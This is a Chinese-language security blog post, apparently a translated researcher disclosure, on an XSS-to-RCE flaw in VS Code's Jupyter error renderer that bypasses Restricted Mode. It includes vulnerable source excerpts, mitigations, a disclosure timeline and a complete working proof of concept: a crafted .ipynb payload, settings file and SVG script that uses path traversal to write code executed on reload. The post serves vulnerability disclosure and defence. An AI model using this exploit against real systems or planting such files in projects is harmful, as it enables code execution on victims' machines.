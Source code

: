 #  突破限制模式：Visual Studio Code 中的 XSS 到 RCE   
 Ots安全   2025-05-21 11:19  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
2024 年 4 月，我发现了 Visual Studio Code（VS Code <= 1.89.1）中一个高严重性漏洞，该漏洞允许攻击者将跨站点脚本 (XSS) 漏洞升级为完全远程代码执行 (RCE)——即使在受限模式下也是如此。  
  
桌面版 Visual Studio Code 运行在 Electron 上，渲染进程被沙盒化，并通过Electron 的 IPC 机制与主进程通信。  
  
Jupyter 笔记本新引入的最小错误渲染vscode-app模式中存在一个 XSS 漏洞，允许在笔记本渲染器的 WebView中执行任意 JavaScript 代码。.ipynb如果用户启用了该设置，打开一个精心设计的文件即可触发此漏洞；如果用户settings.json在 VS Code 中打开一个包含精心设计文件的文件夹，并在其中打开一个恶意 ipynb 文件，则可触发此漏洞。即使启用了受限模式（这是用户未明确信任的工作区的默认设置），此漏洞也可能被触发。  
  
在这篇文章中，我们将介绍该漏洞的工作原理以及它如何绕过 VS Code 的限制模式。  
  
漏洞详情  
  
Visual Studio 的默认安装为 Jupyter Notebook 提供了一些内置支持，并为一些常见的输出类型提供了默认渲染器。这些渲染器的源代码可以在 中找到  
extensions/notebook-renderers/src/index.ts。对于 类型的单元格  
application/vnd.code.notebook.error，渲染器调用renderError函数，该函数又调用formatStackTrace位于 中的stackTraceHelper.ts。该函数进一步调用linkify位于同一文件中的 ，将对特定单元格中行的引用转换为 VS Code 中的可点击链接。如果启用了最小错误渲染模式，程序将把结果从  
formatStackTrace传递到  
createMinimalError，后者执行一些进一步的处理并将结果附加到 webview 的 DOM 。此处复制了带有注释的代码相关摘录。  
  
渲染错误：  
  
```
function renderError(  outputInfo: OutputItem,  outputElement: HTMLElement,  ctx: IRichRenderContext,  trustHtml: boolean // falseif workspace is not trusted): IDisposable {    // ...if (err.stack) {    const minimalError = ctx.settings.minimalError && !!headerMessage?.length;    outputElement.classList.add('traceback');    const { formattedStack, errorLocation } = formatStackTrace(err.stack);        // ...    if (minimalError) {      createMinimalError(errorLocation, headerMessage, stackTraceElement, outputElement);    } else {      // ...    }  } else {    // ...  }  outputElement.classList.add('error');return disposableStore;}
```  
  
  
formatStackTrace 和 linkify：  
  
```
exportfunctionformatStackTrace(stack: string): { formattedStack: string; errorLocation?: string } {let cleaned: string;// ...if (isIpythonStackTrace(cleaned)) {    return linkifyStack(cleaned);  }}const cellRegex = /(?<prefix>Cell\s+(?:\u001b\[.+?m)?In\s*\[(?<executionCount>\d+)\],\s*)(?<lineLabel>line (?<lineNumber>\d+)).*/;functionlinkifyStack(stack: string): { formattedStack: string; errorLocation?: string } {const lines = stack.split('\n');let fileOrCell: location | undefined;let locationLink = '';for (const i in lines) {    const original = lines[i];    if (fileRegex.test(original)) {      // ...    } elseif (cellRegex.test(original)) {      fileOrCell = {        kind: 'cell',        path: stripFormatting(original.replace(cellRegex, 'vscode-notebook-cell:?execution_count=$<executionCount>'))      };      const link = original.replace(cellRegex, `<a href=\'${fileOrCell.path}&line=$<lineNumber>\'>line $<lineNumber></a>`); // [1]      lines[i] = original.replace(cellRegex, `$<prefix>${link}`);      locationLink = locationLink || link; // [2]      continue;    }        // ...  }const errorLocation = locationLink; // [3]return { formattedStack: lines.join('\n'), errorLocation };}
```  
  
  
创建最小错误：  
  
```
functioncreateMinimalError(errorLocation: string | undefined, headerMessage: string, stackTrace: HTMLDivElement, outputElement: HTMLElement) {const outputDiv = document.createElement('div');const headerSection = document.createElement('div');  headerSection.classList.add('error-output-header');if (errorLocation && errorLocation.indexOf('<a') === 0) {    headerSection.innerHTML = errorLocation; // [4]  }const header = document.createElement('span');  header.innerText = headerMessage;  headerSection.appendChild(header);  outputDiv.appendChild(headerSection);// ...  outputElement.appendChild(outputDiv);}
```  
  
  
在[1]和 处[2]，代码尝试将诸如 之类的序列  
Cell In [1], line 6（可选地使用 ANSI 转义序列）转换为用于与表单链接的 HTML 标签  
<a href=vscode-notebook-cell:?execution_count=1&line=6>line 6</a>，并在 处将 errorLocation 变量设置为此 HTML [3]。至关重要的是，它使用的正则表达式末尾的通配符会吞噬行号之后的任何文本，但紧接在Cell In序列之前的任何文本都不会受到该replace操作的影响。因此，像 ipynb. 中的输入  
LOLZTEXTHERECell In [1], line 6会导致无效标记  
LOLZTEXTHERE<a href=LOLZTEXTHEREvscode-notebook-cell:?execution_count=1&line=6>line 6</a>。  
  
在 中  
createMinimalError，如果  
errorLocation设置了 并以 开头<a，则它被视为由  
formatStackTrace函数生成的链接，因此直接分配给  
headerSection.innerHTML。无论工作区是否受信任，此元素都会添加到输出 DOM 中。但是，由于我们可以部分控制标记的formatStackTrace生成（包括字符串的开头），因此我们可以创建一个带有堆栈跟踪的笔记本文件  
<a><img src onerror=console.log(123)>Cell In [1], line 6，这将导致 的值为errorLocation。  
<a><img src onerror=console.log(123)><a href=<a><img[etc]由于这满足以 开头的条件<a>，它将被插入到  
headerSection.innerHTMLwebview 中并在其中呈现，从而导致 JavaScript 运行并123记录到控制台。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeE4A70ZJcGMWKhyvy6SjkWIbF0DrRicicXF7C8WCl0OOjtg6ymbDCKejlQLg22OgRyeJDhx7VpHYMw/640?wx_fmt=png&from=appmsg "")  
  
升级到 RCE  
  
该 XSS 漏洞会导致在源下的 iframe 中执行代码vscode-app，该 iframe 是位于源下主工作台窗口下的框架  
vscode-file。主工作台窗口包含一个vscode.ipcRenderer对象，该对象使渲染器框架能够向主框架发送 IPC 消息，以便执行文件系统操作、在 PTY 中创建和执行命令等等。要访问此对象，我们需要找到一种在  
vscode-file源内执行代码的方法。协议处理程序的代码  
vscode-file位于src/vs/platform/protocol/electron-main/protocolMainService.ts中，相关部分摘录如下：  
  
```
private readonly validExtensions = new Set(['.svg', '.png', '.jpg', '.jpeg', '.gif', '.bmp', '.webp', '.mp4']); // https://github.com/microsoft/vscode/issues/119384    private handleResourceRequest(request: Electron.ProtocolRequest, callback: ProtocolCallback): void {    const path = this.requestToNormalizedFilePath(request);    let headers: Record<string, string> | undefined;    if (this.environmentService.crossOriginIsolated) {      if (basename(path) === 'workbench.html' || basename(path) === 'workbench-dev.html') {        headers = COI.CoopAndCoep;      } else {        headers = COI.getHeadersFromQuery(request.url);      }    }    // first check by validRoots    if (this.validRoots.findSubstr(path)) {      return callback({ path, headers });    }    // then check by validExtensions    if (this.validExtensions.has(extname(path).toLowerCase())) {      return callback({ path });    }    // finally block to load the resource    this.logService.error(`${Schemas.vscodeFileResource}: Refused to load resource ${path} from ${Schemas.vscodeFileResource}: protocol (original URL: ${request.url})`);    return callback({ error: -3/* ABORTED */ });  }
```  
  
  
为了根据协议加载文件vscode-file，它们必须位于 VS Code 应用程序安装目录中，或者具有一组有效扩展名之一。.svg是一个有效扩展名，可以包含在加载时将执行的 JavaScript 代码<iframe>。我们可以将 SVG 文件包含到我们的恶意代码库中，并通过笔记本 webview 中的许多 DOM 元素获取对存储目录的引用，这些元素包含对当前目录的引用（PoC 使用<base>标签的href属性）。  
  
在 SVG 文件中，  
top.vscode.ipcRenderer可用于调用主进程的 IPC 处理程序。特别是两个处理程序，  
vscode:readNlsFile和  
vscode:writeNlsFile，被发现容易受到目录遍历攻击，使攻击者能够读取和写入进程在文件系统上有权访问的任何文件。PoC 利用这一点在 Windows 和 macOS 上通过写入 来执行代码  
<vscode app root>/out/node_modules/graceful-fs.js，该文件默认情况下不存在，但 VS Code 在加载窗口时会尝试导入（我们可以通过发送  
vscode:reloadWindowIPC 消息立即触发）。在 Linux 上，可以通过类似的方式通过写入  
.bashrcetc来实现代码执行。  
  
概念验证：  
  
该 PoC 是一个包含 VS Code 工作区的恶意文件夹。要触发此漏洞，请使用“打开文件夹”命令在 VS Code 中打开该文件夹，然后打开文件夹中的 README.ipynb 文件。此 PoC 已在 Windows 和 macOS 版本的 VS Code 上进行了测试。恶意存储库的文件结构如下：  
  
```
not_sus_repo├── .vscode│ └── settings.json├── README.ipynb└── icon.svg
```  
  
  
vscode/settings.json：  
  
```
{    "notebook.output.minimalErrorRendering": true}
```  
  
  
README.ipynb：  
  
```
{"cells": [  {   "cell_type": "code",   "execution_count": 1,   "metadata": {},   "outputs": [    {     "data": {      "application/vnd.code.notebook.error": {       "message": "error",       "name": "name",       "stack": "<a><img src onerror=\"var root=document.getElementsByTagName('base')[0].href;root=root.replace('https://file+.vscode-resource.vscode-cdn.net/','vscode-file://vscode-app/');var iframe=document.createElement('iframe');iframe.src=root+'icon.svg',iframe.style.display='none',document.body.appendChild(iframe);\">Cell \u001b[1;32mIn[1], line 6"      }     },     "metadata": {},     "output_type": "display_data"    }   ],   "source": [    "def make_big_err(i):\n",    " if i <= 0:\n",    " raise Exception()\n",    " make_big_err(i-1)\n",    "\n",    "make_big_err(10)"   ]  } ]}
```  
  
icon.svg：  
  
```
<svg height="100" width="100" xmlns="http://www.w3.org/2000/svg">    <circler="45"cx="50"cy="50"fill="red" />    <script>      asyncfunctionexp() {        const pathSep = top.vscode.process.platform === 'win32' ? '\\' : '/';        const a = top.vscode.context.configuration().userDataDir;        let b = top.vscode.context.configuration().appRoot;        let payload = top.vscode.process.platform === 'win32' ? 'start calc.exe' : 'open -a Calculator.app';        if (b[1] === ':') {          b = b.slice(2);        }        const subPath = `clp${pathSep}${('..' + pathSep).repeat(15)}${b}${pathSep}out${pathSep}node_modules${pathSep}graceful-fs.js`;        await top.vscode.ipcRenderer.invoke('vscode:writeNlsFile', `${a}${pathSep}${subPath}`, `require("child_process").exec("${payload}");`);        top.vscode.ipcRenderer.send('vscode:reloadWindow');      }      exp();    </script>  </svg>
```  
  
  
建议的缓解措施  
  
在 中  
createMinimalError，确保  
errorLocation仅包含<a>具有指定 URI 格式的标签，然后再分配给  
headerSection.innerHTML  
  
在笔记本渲染器 webview 中使用内容安全策略，以确保在受限模式下仅运行受信任的脚本。  
  
演示  
  
现在是演示时间。  
  
  
时间线  
  
2024-07-03 供应商披露  
  
2024-07-03 首次联系供应商  
  
2024-07-10 与供应商共享了另外两个 POC  
  
2024-08-02 供应商回复“此案例被评估为低严重性，不符合 MSRC 立即服务的标准，因为如果没有大量的用户交互（即接受保存到攻击者控制的位置的提示），RCE 就不再可能。”  
  
2025-05-14 公开披露  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
  
  
